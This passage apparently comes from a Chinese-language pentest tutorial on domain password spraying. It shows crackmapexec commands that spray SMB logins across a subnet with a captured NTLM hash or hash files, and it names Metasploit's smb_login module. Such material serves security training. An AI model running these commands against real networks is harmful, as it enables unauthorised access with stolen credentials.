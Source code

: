指定用户名及哈希进行喷洒：之前我们读取到一个无法解密的NTLM的值，可以通过密文的方式进行碰撞。

![image-20230109012827558](../../images//image-20230109012827558.png)

```
crackmapexec smb 172.16.0.0/24 -u user.io -H '78756282d1fcb13c8f94a368ab24235c'  (指定用户名及ntlm哈希)
crackmapexec smb 172.16.0.0/24 -u ~/name.txt -H ~/ntlmhash.txt  (指定用户名文件及ntlm哈希文件)
```

![image-20230109013033202](../../images//image-20230109013033202.png)

3.3.6 metasploit对域内进⾏密码喷洒

可以使用scanner/smb/smb_login模块进行尝试。

![image-20230109013522017](../../images//image-20230109013522017.png)
